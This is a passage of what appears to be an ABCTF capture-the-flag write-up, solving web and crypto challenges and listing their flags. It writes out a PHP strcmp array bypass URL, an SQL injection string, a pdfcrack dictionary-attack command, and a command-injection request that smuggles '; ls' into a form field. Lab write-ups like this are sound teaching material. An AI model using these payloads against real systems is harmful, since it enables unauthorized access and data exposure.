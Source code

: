 `ABCTF{th1s_was_h4rd_in_1980}`

## L33t H4xx0r - 70

[strcmp()](http://php.net/manual/function.strcmp.php) with `Array` returns `NULL`.

``` php
strcmp("foo", array()) => NULL + PHP Warning
```

So <http://yrmyzscnvh.abctf.xyz/web6/?password[]=foo> dumps the `abctf{always_know_whats_going_on}`.


## AES Mess - 75

AES is a block cipher.
The [Electronic Codebook (ECB)](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Electronic_Codebook_.28ECB.29) is used in this time, so you can decrypt it blockwise.

Split the ciphertext with $32$byte each, and find them from the given list,

```
e220eb994c8fc16388dbd60a969d4953 abctf{looks_like
f042fc0bce25dbef573cf522636a1ba3                 _you_can_break_a
fafa1a7c21ff824a5824c5dc4a376e75                 es}
```

## PasswordPDF - 80

Use dictionary attack.

``` sh
$ pdfcrack --wordlist=crackstation-human-only.txt mypassword.pdf
```

I used the dictionary on <https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm>.
The pdf password is `elephant`. Invert the pdf content: `ABCTF{Damn_h4x0rz_always_bypassing_my_PDFs}`.

## Get 'Em All - 80

SQL Injection.
`' or 1 = 1 -- ` shows all the records.

`ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs} `.

## Safety First - 95

The input is passed to `expr` command, without escaping.
You may notice this if you often use a shell.

``` sh
$ curl http://yrmyzscnvh.abctf.xyz/web7/ -F expression='; ls'
abctf{watch_0ut_f0r_syst3m}
calc.js
index.php
main.css
main.css
<html>
<head>
  <link rel="stylesheet" href="main.css">
    <script type="text/javascript" src="calc.js"></script>
...
```
